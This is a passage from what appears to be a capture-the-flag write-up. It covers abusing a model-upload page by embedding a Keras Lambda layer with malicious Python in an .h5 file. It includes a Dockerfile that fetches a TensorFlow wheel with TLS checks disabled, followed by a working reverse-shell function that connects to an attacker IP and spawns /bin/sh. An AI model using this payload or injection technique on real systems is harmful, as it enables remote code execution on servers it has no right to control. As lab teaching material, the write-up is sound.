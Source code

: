 ![web](/assets/img/commons/artificial/model_upload.png){: .center-image }

On this page, the following requirements.txt is provided to correctly generate the model:

```py
tensorflow-cpu==2.13.1
```

There is also an option to set up a container with the following Dockerfile:

```docker
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

A vulnerability when uploading .h5 files is the ability to inject a Lambda layer with malicious Python code. In this case, I want to obtain a reverse shell, so the generation of the .h5 with Python could look like this:

```py
import tensorflow as tf

def exploit(x):
    import socket, subprocess, os
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.10.16.33", 443))
        os.dup2(s.fileno(), 0)
        os.dup2(s.fileno(), 1)
        os.dup2(s.fileno(), 2)
        subprocess.Popen(["/bin/sh", "-i"])
    except Exception as e:
        pass
```